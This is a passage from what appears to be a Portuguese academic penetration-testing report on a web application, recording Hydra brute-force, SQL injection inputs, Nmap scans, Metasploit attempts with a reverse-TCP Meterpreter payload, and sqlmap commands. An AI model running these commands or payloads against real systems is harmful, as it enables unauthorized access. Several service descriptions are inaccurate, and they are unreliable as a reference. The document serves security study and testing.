Configurar a ferramenta Hydra para executar uma sessão de testes utilizando o \emph{login} \textquotedblleft{}admin\textquotedblright{}, cadastrado na base de dados do sistema explorado. Além disso, usar um dicionário de senhas retiradas da \emph{Lista de Piores Senhas de 2015} da SplashData \citep{62203}.


\emph{Comando utilizado: hydra -l admin -P forcaBruta IP\_do\_servidor http-post-form \textquotedblleft{}nomeSistema/login.php:login=\^{}USER\^{}:senha=\^{}PASS\^{}:logado=false\textquotedblright{} -V}



\begin{enumerate}[start=1]
	
\item \textquotedblleft{}hydra\textquotedblright{} executa a ferramenta Hydra;
	
\item \textquotedblleft{}-l\textquotedblright{} significa o login utilizado no momento. Nesse caso, deve ser sempre \textquotedblleft{}admin\textquotedblright{}, pois foi o único usuário válido fornecido para a realização de testes no sistema explorado;
	
\item \textquotedblleft{}-P\textquotedblright{} aponta para o arquivo contendo as senhas que a Hydra tentará utilizar para acessar o sistema;
	
\item \textquotedblleft{}IP\_do\_servidor\textquotedblright{} é o IP onde está hospedada a aplicação alvo;
	
\item \textquotedblleft{}http-post-form\textquotedblright{} informa o método utilizado para fazer a requisição ao servidor: POST do protocolo HTTP;
	
\item \emph{\textquotedblleft{}nomeSistema/login.php:login=\^{}USER\^{}:senha=\^{}PASS\^{}:logado=false\textquotedblright{}~ }é a URL utilizada para fazer a requisição;
	
\begin{enumerate}[start=1]
		
\item USER é onde a Hydra deve inserir o \emph{login} válido usado na requisição;
		
\item PASS é onde a Hydra deve inserir a \emph{senha} válida usada na requisição.
	
\end{enumerate}
	
	
\item \textquotedblleft{}-V\textquotedblright{} é para exibir no console o resultado da operação.

\end{enumerate}


\paragraph*{Resultado esperado}

Espera-se que o sistema possua proteção Antispam, como Captcha que impeça a ferramenta automatizada de prosseguir até o fim do teste.



\paragraph*{Relatório de execução}

O sistema não passou nos testes. Conforme mostra a Figura 9, todas as tentativas configuradas na Hydra foram executadas com sucesso. O sistema é vulnerável ao acesso via força bruta, pois permite que várias requisições sejam feitas ao servidor por tempo indeterminado. Como não há mecanismo de bloqueio para inúmeras requisições, o sistema abre uma brecha para que senhas de acesso ao sistema possam ser descobertas após várias tentativas.





\begin{figure}[htp]
\centering
\caption{Resultado da execução de testes no campo login utilizando a Hydra.}

\includegraphics[width=450px]{image1.jpeg}
\end{figure}
\ifdefined\FloatBarrier \FloatBarrier \fi





\subsubsection*{Tela Login - Exploração via SQL Injection}

Tarefa realizada dia 07/04/16.


Duração total das sessões executadas: 1 hora e 40 minutos.



\paragraph*{Objetivo}

Submeter entradas maliciosas no sistema através de injeção de códigos SQL na página de Login. Então, através de sessões de testes, forçar ações não autorizadas no sistema.



\paragraph*{~}


\paragraph*{Sessão de teste 1}

Verificar se o campo Login é vulnerável a injeção de código SQL utilizando a técnica de concatenação de aspas simples.


Entrada: \emph{admin\rq{}}



\paragraph*{Resultado Esperado}

Espera-se que o sistema realize o tratamento do caractere aspa simples como um parâmetro regular da consulta.



\paragraph*{Relatório de execução}

O sistema passou nos testes. A aplicação realizou o tratamento de dados de entrada e não permitiu a injeção de instruções SQL através do campo de Login.





\paragraph*{Sessão de teste 2}

Inserir um texto com uma distribuição adequada de aspa simples e comentários inline \citep{62214,62213,62212}~como entrada no campo Login, a fim de modificar a instrução SQL utilizada pelo sistema na consulta de dados referentes aos usuários cadastrados. Comentários inline serão utilizados para tentar forçar o interpretador de SQL da aplicação a ignorar todas as instruções SQL que vierem após o comentário inserido.


Entradas:



\begin{enumerate}[start=1]
	
\item \emph{admin\rq{} or 1=1 \#~~ }
	
\item \emph{admin\rq{} or 1=1~ -- }

\end{enumerate}


\paragraph*{Resultado Esperado}

Espera-se que a aplicação realize o devido tratamento para impedir que as instruções de comentários não sejam interpretadas como comentários inline.



\paragraph*{Relatório de execução}

O sistema passou nos testes. A aplicação realizou o tratamento de dados de entrada, não permitindo a mudança de comportamento da instrução SQL utilizada pelo sistema para consultar os dados dos usuários cadastrados.





\paragraph*{Sessão de teste~3}

Inserir um texto utilizando uma única aspa simples para completar a entrada de uma possível instrução SQL executada no momento do login no sistema.


Entradas:


admin\rq{} or $\lq$a\rq{}=\rq{}a



\paragraph*{Resultado Esperado}

Espera-se que o sistema realize o tratamento de todos os caracteres informados como parâmetros regulares da consulta.



\paragraph*{Relatório de execução}

O sistema passou nos testes. A aplicação realizou o tratamento de dados de entrada, não permitindo a mudança de comportamento da instrução SQL utilizada pelo sistema para consultar os dados dos usuários cadastrados.





\subsection{Iteração 3}


\subsubsection*{Atividade: análise do servidor via Nmap}

Tarefa realizada no dia 09/04/16


Duração total das sessões executadas: 1 hora.



\paragraph*{Objetivo}

Utilizar a ferramenta Nmap, abordada no subcapítulo 3.2, para descobrir portas abertas no servidor e que atividades maliciosas podem ser desenvolvidas a partir disso.



\paragraph*{Varredura 1}

\emph{Utilização do comando: nmap -Ss -O IP\_do\_servidor.}



\begin{enumerate}[start=1]
	
\item \textquotedblleft{}nmap\textquotedblright{} executa a ferramenta Nmap;
	
\item \textquotedblleft{}-Ss\textquotedblright{} permite que a ferramenta tente fazer o scan SYN do TCP;
	
\item \textquotedblleft{}-O\textquotedblright{} permite que a ferramenta tente encontrar o sistema operacional utilizado pelo servidor.;
	
\item IP\_do\_servidor informa o IP onde está hospedada a aplicação em teste.

\end{enumerate}


\paragraph*{Resultado Esperado}

Espera-se descobrir o sistema operacional utilizado pelo servidor explorado, as portas abertas, e os serviços que estão rodando nessas portas no momento do escaneamento.



\paragraph*{Relatório de execução}

Erro na ferramenta.



\paragraph*{Varredura 2}

\emph{Utilização do comando: nmap -sS -O IP\_do\_servidor.}



\begin{enumerate}[start=1]
	
\item \textquotedblleft{}nmap\textquotedblright{} executa a ferramenta Nmap;
	
\item \textquotedblleft{}-sS\textquotedblright{} permite que a ferramenta tente fazer o scan SYN do TCP;
	
\item \textquotedblleft{}-O\textquotedblright{} permite que a ferramenta tente encontrar o sistema operacional utilizado pelo servidor;
	
\item IP\_do\_servidor informa o IP onde está hospedada a aplicação em teste.

\end{enumerate}


\paragraph*{Resultado Esperado}

Espera-se descobrir o sistema operacional utilizado pelo servidor explorado, as portas abertas, e os serviços que estão rodando nessas portas no momento do escaneamento.



\paragraph*{Relatório de execução}

De acordo com a ~Figura 10, foi possível descobrir o sistema operacional utilizado pelo servidor explorado: \emph{Windows Server 2003.} Também foi possível descobrir as portas abertas, e serviços que estavam rodando nessas portas no momento do escaneamento.





\begin{figure}[htp]
\centering
\caption{Portas encontradas e os serviços que estavam rodando nelas no momento do escaneamento via Nmap.}

\includegraphics[width=450px]{image4.jpeg}
\vspace{.5\baselineskip}\\
\ffcaptionfontsize Autoria Própria
\end{figure}
\ifdefined\FloatBarrier \FloatBarrier \fi



%\begin{enumerate}[start=1]

%\end{enumerate}

Serviços encontrados na Figura 10:



\begin{itemize}
	
\item Microsoft Windows RPC - Ferramenta semelhante ao TeamViewer que conecta o computador criando um esquema de servidor - cliente;
	
\item Microsoft Windows microsoft-ds - Ferramenta que auxilia a implantação de imagens em uma distribuição Windows;
	
\item Apache httpd -- Servidor Web;
	
\item Microsoft Windows 98 netbios-ssn -- API que fornece serviços relacionados com a camada de Transporte do modelo OSI para permitir a comunicação de aplicativos locais;
	
\item Microsoft Firmware Ppt -- Protocolo de transferência ponto a ponto.

\end{itemize}


\paragraph*{Varredura 3}

\emph{Utilização do comando:~ nmap -sV~ -O IP\_do\_servidor.}



\begin{enumerate}[start=1]
	
\item ``nmap\textquotedblright{} executa a ferramenta Nmap;
	
\item \textquotedblleft{}-sV\textquotedblright{} permite que a ferramenta realize o SYN e busque a versão do software rodando no momento;
	
\item \textquotedblleft{}-O\textquotedblright{} permite que a ferramenta tente encontrar o sistema operacional utilizado pelo servidor;
	
\item IP\_do\_servidor informa o IP onde está hospedada a aplicação em teste.

\end{enumerate}


\paragraph*{Resultado Esperado}

Espera-se descobrir o sistema operacional utilizado pelo servidor explorado, as portas abertas, os serviços e as versões dos softwares que estão rodando nessas portas no momento do escaneamento.



\paragraph*{Relatório de execução}

De acordo com a Figura 11, foi possível descobrir o sistema operacional utilizado pelo servidor explorado: \emph{Windows Server 2003.} Também foi possível descobrir as portas abertas, os serviços e a versão dos softwares que estavam rodando nessas portas no momento do escaneamento.





\begin{figure}[htp]
\centering
\caption{Portas encontradas e versões dos sistemas que elas estavam rodando, no momento do escaneamento via Nmap.}

\includegraphics[width=450px]{image5.jpeg}
\end{figure}
\ifdefined\FloatBarrier \FloatBarrier \fi


Serviços encontrados na Figura 11:



\begin{itemize}
	
\item Microsoft Windows RPC - Ferramenta semelhante ao TeamViewer que conecta o computador criando um esquema de servidor - cliente;
	
\item Microsoft Windows microsoft-ds - Ferramenta que auxilia a implantação de imagens em uma distribuição Windows;
	
\item Apache httpd -- Servidor Web;
	
\item Microsoft Windows 98 netbios-ssn -- API que fornece serviços relacionados com a camada de Transporte do modelo OSI para permitir a comunicação de aplicativos locais;
	
\item Microsoft Firmware Ppt -- Protocolo de transferência ponto a ponto.

\end{itemize}


\paragraph*{Varredura 4}

\emph{Utilização do comando: ~nmap -sU -O IP\_do\_servidor.}



\begin{enumerate}[start=1]
	
\item \textquotedblleft{}nmap\textquotedblright{} executa a ferramenta Nmap;
	
\item \textquotedblleft{}-sU\textquotedblright{} permite que a ferramenta utilize o detector de portas UDP;
	
\item \textquotedblleft{}-O\textquotedblright{} permite que a ferramenta tente encontrar o sistema operacional utilizado pelo servidor;
	
\item IP\_do\_servidor informa o IP onde está hospedada a aplicação em teste.

\end{enumerate}


\paragraph*{Resultado Esperado}

Espera-se descobrir o sistema operacional utilizado pelo servidor explorado, as portas UDP abertas e os serviços que estão rodando nessas portas no momento do escaneamento.





%\begin{enumerate}[start=1]

%\end{enumerate}


\paragraph*{Relatório de execução}

De acordo com a Figura 12, foi possível descobrir o sistema operacional utilizado pelo servidor explorado: \emph{Windows Server 2003.} Também foi possível descobrir as portas UDP abertas e os serviços que estavam rodando nessas portas no momento do escaneamento.





\begin{figure}[htp]
\centering
\caption{Portas UDP escaneadas e serviços que estavam rodando nelas no momento do escaneamento via Nmap.}

\includegraphics[width=450px]{image6.jpeg}
\end{figure}
\ifdefined\FloatBarrier \FloatBarrier \fi


Serviços encontrados na Figura 12:



\begin{itemize}
	
\item netbios-ns - responsável pelo registro de nomes de aplicação do NetBios \citep{62208};
	
\item netbios -dgm - serviço de datagrams do NetBios;
	
\item snmp~\citep{62209} - gerenciamento de redes;
	
\item microsoft-ds - protocolo utilizado pelo sistema operacional Windows para compartilhamento e impressões de arquivos;
	
\item L2TP (Protocolo de Encapsulamento de Camada 2) \citep{62215}-- Protocolo de encapsulamento da Internet, utilizado por uma conexão de VPN (rede virtual privada) para acessar uma rede privada;
	
\item nat-t-like - protocolo de tradução de ips.
	
\item ntp \citep{62207}~- protocolo de sincronização de relógios usando UDP.

\end{itemize}


\paragraph*{Varredura 5}

\emph{Utilização do comando: nmap -A -O IP\_do\_servidor.}



\begin{enumerate}[start=1]
	
\item \textquotedblleft{}nmap\textquotedblright{} executa a ferramenta Nmap;
	
\item \textquotedblleft{}-A\textquotedblright{} é para usar o Tracerouter na requisição;
	
\item \textquotedblleft{}-O\textquotedblright{} permite que a ferramenta tente encontrar o sistema operacional utilizado pelo servidor;
	
\item IP\_do\_servidor informa o IP onde está hospedada a aplicação em teste.

\end{enumerate}


\paragraph*{Resultado Esperado}

Espera-se descobrir o sistema operacional utilizado pelo servidor explorado e a rota traçada pelo Tracerouter.



%\begin{enumerate}[start=1]

%\end{enumerate}


\paragraph*{Relatório de execução}

De acordo com as Figura 13 e 14, foi possível descobrir o sistema operacional utilizado pelo servidor explorado: \emph{Windows Server 2003.} Também foi possível descobrir a rota traçada para a requisição ao servidor.





\begin{figure}[htp]
\centering
\caption{Rota traçada pelo Tracerouter - Parte 1}

\includegraphics[width=450px]{image7.jpeg}
\end{figure}
\ifdefined\FloatBarrier \FloatBarrier \fi


Serviços encontrados na Figura 13:



\begin{itemize}
	
\item Microsoft Windows RPC - Ferramenta semelhante ao TeamViewer que conecta o computador criando um esquema de servidor - cliente;
	
\item Microsoft Windows microsoft-ds - Ferramenta que auxilia a implantação de imagens em uma distribuição Windows;
	
\item Apache httpd -- Servidor Web;
	
\item Microsoft Windows 98 netbios-ssn -- Api que fornece serviços relacionados com a camada de Transporte do modelo OSI para permitir a comunicação de aplicativos locais;
	
\item Microsoft Firmware Ppt -- Protocolo de transferência ponto a ponto.

\end{itemize}




\begin{figure}[htp]
\centering
\caption{Rota traçada pelo Tracerouter - Parte 2}

\includegraphics[width=450px]{image8.jpeg}
\end{figure}
\ifdefined\FloatBarrier \FloatBarrier \fi



%\begin{itemize}

%\end{itemize}


\paragraph*{Varredura 6}

\emph{Utilização do comando: nmap -sV -p 1-65535 -O IP\_do\_servidor.}



\begin{enumerate}[start=1]
	
\item \textquotedblleft{}nmap\textquotedblright{} executa a ferramenta Nmap.
	
\item \textquotedblleft{}-sV\textquotedblright{} permite que a ferramenta realize o SYN e busque a versão do software rodando no momento;
	
\item \textquotedblleft{}-p\textquotedblright{} indica quais portas devem ser usadas no teste, o delimitador é \textquotedblleft{}-\textquotedblright{};
	
\item \textquotedblleft{}-O\textquotedblright{} permite que a ferramenta tente encontrar o sistema operacional utilizado pelo servidor;
	
\item IP\_do\_servidor é o IP onde está hospedada a aplicação em teste.

\end{enumerate}


\paragraph*{Resultado Esperado}

Espera-se descobrir o sistema operacional utilizado pelo servidor explorado, as portas abertas e a versão dos serviços que estão rodando nessas portas no momento do escaneamento.



\paragraph*{Relatório de execução}


%\begin{enumerate}[start=1]

%\end{enumerate}

De acordo com a Figura 15, foi possível descobrir o sistema operacional utilizado pelo servidor explorado: \emph{Windows Server 2003.} Também foi possível descobrir as portas abertas e a versão dos serviços que estavam rodando nessas portas no momento do escaneamento.





\begin{figure}[htp]
\centering
\caption{Versão do software rodando nas portas escaneadas via Nmap.}

\includegraphics[width=450px]{image9.jpeg}
\end{figure}
\ifdefined\FloatBarrier \FloatBarrier \fi


Serviços encontrados na Figura 15:



\begin{itemize}
	
\item Ferramenta semelhante ao TeamViewer que conecta o computador criando um esquema de servidor - cliente;
	
\item Microsoft Windows microsoft-ds - Ferramenta que auxilia a implantação de imagens em uma distribuição Windows;
	
\item Apache httpd -- Servidor Web;
	
\item Microsoft Windows 98 netbios-ssn -- API que fornece serviços relacionados com a camada de Transporte do modelo OSI para permitir a comunicação de aplicativos locais;
	
\item Microsoft Firmware Ppt -- Protocolo de transferência ponto a ponto.

\end{itemize}


\paragraph*{Varredura 7}

\emph{Utilização do comando: nmap -sU -p 1-65535 IP\_do\_servidor.}



\begin{enumerate}[start=1]
	
\item \textquotedblleft{}nmap\textquotedblright{} executa a ferramenta Nmap;
	
\item \textquotedblleft{}-sU\textquotedblright{} permite que a ferramenta use o detector de portas UDP;
	
\item \textquotedblleft{}-p\textquotedblright{} indica quais portas devem ser usadas no teste, o delimitador é \textquotedblleft{}-\textquotedblright{};
	
\item \textquotedblleft{}-O\textquotedblright{} permite que a ferramenta tente encontrar o sistema operacional utilizado pelo servidor;
	
\item IP\_do\_servidor é o IP onde está hospedada a aplicação em teste.

\end{enumerate}


\paragraph*{Resultado Esperado}

Espera-se descobrir o sistema operacional utilizado pelo servidor explorado, as portas UDP abertas e a versão e os serviços que estão rodando nessas portas no momento do escaneamento.



\paragraph*{Relatório de execução}

De acordo com a Figura 16, foi possível descobrir o sistema operacional utilizado pelo servidor explorado: Windows Server 2003. Também foi possível descobrir as portas UDP abertas e a versão dos serviços que estavam rodando nessas portas no momento do escaneamento.





\begin{figure}[htp]
\centering
\caption{Versão do software rodando nas portas UDP escaneadas via Nmap.}

\includegraphics[width=450px]{image10.jpeg}
\end{figure}
\ifdefined\FloatBarrier \FloatBarrier \fi





%\begin{enumerate}[start=1]

%\end{enumerate}

Serviços encontrados na Figura 16:



\begin{itemize}
	
\item netbios-ns - responsável pelo registro de nomes de aplicação do NetBios \citep{62208};
	
\item netbios -dgm - serviço de datagrams do NetBios;
	
\item snmp~\citep{62209} - gerenciamento de redes;
	
\item microsoft-ds - protocolo utilizado pelo sistema operacional Windows para compartilhamento e impressões de arquivos;
	
\item L2TP (Protocolo de Encapsulamento de Camada 2) \citep{62215}-- Protocolo de encapsulamento da Internet, utilizado por uma conexão de VPN (rede virtual privada) para acessar uma rede privada;
	
\item nat-t-like - protocolo de tradução de ips.
	
\item ntp \citep{62207}~- protocolo de sincronização de relógios usando UDP.

\end{itemize}




\subsubsection*{Ataque à porta RPC - via Metasploit}





Tarefa realizada dia 10/04/16.


Duração total das sessões executadas: 1 hora.



\paragraph*{Objetivo}

Ataque à porta RPC descoberta na análise de servidor via Nmap realizada anteriormente.


Tentar se conectar à porta 135 usando o framework Metasploit, ferramenta abordada no subcapítulo 3.2, para tentar conseguir privilégios dentro do Windows.


Sessão de teste 1


Tentar configurar algum exploit para atacar a porta 135.



\paragraph*{Resultado Esperado}

Espera-se que o exploit não consiga ser executado.



\paragraph*{Relatório de execução}

A ferramenta é de difícil configuração e possui uma bibliografia muito ruim para iniciantes. Não foi possível obter nenhum resultado.





\paragraph*{Sessão de teste 2}

O exploit escolhido para testar o caso específico da porta RPC foi o \emph{auxiliary/scanner/msf/msf\_rpc\_login}. O payload a ser executado é o \emph{windows/meterpreter/reverse\_tcp.} Esse payload força a máquina atacada a abrir uma conexão com a máquina atacante via TCP.~



\paragraph*{Resultado esperado}

Espera-se que o exploit não consiga ser executado.



\paragraph*{Relatório de execução}

Não foi possível realizar o teste com êxito.Pois, conforme o resultado ~\emph{Varredura 2} na seção de testes \textbf{Atividade: Análise do servidor - Exploração via Nmap}, o sistema operacional utilizado pelo servidor que hospeda a aplicação é \emph{Windows Server} \emph{2003. }Após verificação, foi constatado que\emph{ o} exploit enviado no teste é voltado para Windows NT.



\paragraph*{Sessão de teste 3}

Tentar atacar a porta 445 usando exploits automatizados.


Para esse caso, o exploit escolhido foi o MS08-67 disponível no caminho \emph{/windows/smb/ms08\_067\_netapi. }Ele serve especificamente para explorar uma vulnerabilidade do \emph{microsoft ds}. Utilizar mesmo o payload citado na Sessão de teste 2: \emph{windows/meterpreter/reverse\_tcp.} Esse payload força a máquina atacada a abrir uma conexão com a máquina atacante via TCP.



\paragraph*{Resultado esperado}

Espera-se que o exploit não consiga ser executado.



\paragraph*{Relatório de execução}

O sistema passou nos testes. O exploit não foi executado na máquina do servidor.



\paragraph*{Sessão de teste 4}

Tentar atacar a porta 135.


O exploit escolhido foi o \emph{auxiliary/scanner/msf/msf\_rpc\_login}~ para testar o caso específico da porta RPC escolhida. O payload a ser executado é o \emph{windows/meterpreter/reverse\_tcp.} Esse payload força a máquina atacada a abrir uma conexão com a máquina atacante via TCP.



\paragraph*{Resultado esperado}

Espera-se que o exploit não consiga ser executado.



\paragraph*{Relatório de execução}

O sistema passou nos testes. O exploit não foi executado na máquina do servidor.


~





\subsubsection*{Tela de Login -- Exploração via SqlMap}

Tarefa realizada no dia 11/04.


Duração total das sessões executadas: 2 horas e 30 minutos.



\paragraph*{Objetivo}

Utilizar a ferramenta SqlMap, abordada no subcapítulo 3.2, para automatizar o processo de detecção de vulnerabilidades na tela de Login utilizando injeção SQL.



\paragraph*{Sessão de teste 1}

Verificar se a tela de Login é vulnerável a injeção de código SQL. Caso haja vulnerabilidade, conseguir obter o nome do banco de dados utilizado pelo sistema.


Para realizar essa sessão de teste, foi necessário utilizar a ferramenta Burp Suite para capturar as informações de cookie contidas no cabeçalho de requisição HTTP no momento em que a página do Login é acessada.





\begin{figure}[htp]
\centering
\caption{Parâmetros obtidos através do Burp Suite.}

\includegraphics[width=417px]{imagem11Editada.jpeg}
\end{figure}
\ifdefined\FloatBarrier \FloatBarrier \fi


Comando utilizado:


\emph{./Sqlmap.py -u ''}\emph{\seqsplit{http://IP\_do\_servidor/nome\_do\_sistema/login.php?logado=false}}\emph{`` }


\emph{--cookie=''PHSESSID=75ce718b37088517cafla733d53c60f``~ -b~ --current -db }



\begin{enumerate}[start=1]
	
\item \textquotedblleft{}./sqlmap.py\textquotedblright{} comando utilizado para executar a ferramenta SqlMap;
	
\item \textquotedblleft{}-u\textquotedblright{} utilizado para especificar a URL alvo da página a ser explorada;
	
\item \textquotedblleft{}--cookie\textquotedblright{} utilizado para especificar um cookie de sessão válido a ser passado para o SqlMap durante o ataque;
	
\item \textquotedblleft{}--current -db\textquotedblright{} utilizado para obter o nome do banco de dados utilizado pela aplicação.

\end{enumerate}


\paragraph*{Resultado esperado}

Espera-se que a tela de Login não seja vulnerável à injeção de SQL e consequentemente não seja possível descobrir o nome do banco de dados utilizado pela aplicação.



\paragraph*{Relatório de execução}

O sistema passou nos testes. A Figura 18~mostra que após a execução e as inúmeras sessões de testes de injeção o parâmetro informado no comando utilizado não é injetável.





\begin{figure}[htp]
\centering
\caption{Resultado aplicação SQL Injection via SqlMap.}

\includegraphics[width=450px]{image14.jpeg}
\end{figure}
\ifdefined\FloatBarrier \FloatBarrier \fi



\paragraph*{Sessão de teste 2}

Repetir a ação da Sessão de teste 1 e aumentar o nível de heurística aplicada pelo SqlMap na injeção de SQL para o valor máximo: 5. Com o incremento no valor de heurística, aumentaram também a profundidade da árvore de decisão usada nos ataques.


Comando utilizado:


./Sqlmap.py -u ''\seqsplit{http://IP\_do\_servidor/nomeSistema/login.php?logado=false}`` --b


--cookie=''PHSESSID=75ce718b37088517cafla733d53c60f`` --current -db


--level 5



\begin{enumerate}[start=1]
	
\item \textquotedblleft{}./sqlmap.py\textquotedblright{} comando utilizado para executar a aplicação;
	
\item \textquotedblleft{}-u\textquotedblright{} comando utilizado para especificar a URL alvo da página a ser explorada;
	
\item \textquotedblleft{}--cookie\textquotedblright{} comando utilizado para especificar um cookie de sessão válido a ser passado para o SQL MAP durante o ataque;
	
\item \textquotedblleft{}--current -db\textquotedblright{} comando utilizado para obter o nome do banco de dados utilizado pelo sistema alvo;
	
\item \textquotedblleft{}--level 5\textquotedblright{} comando utilizado para aumentar o nível da heurística utilizada no escaneamento.

\end{enumerate}


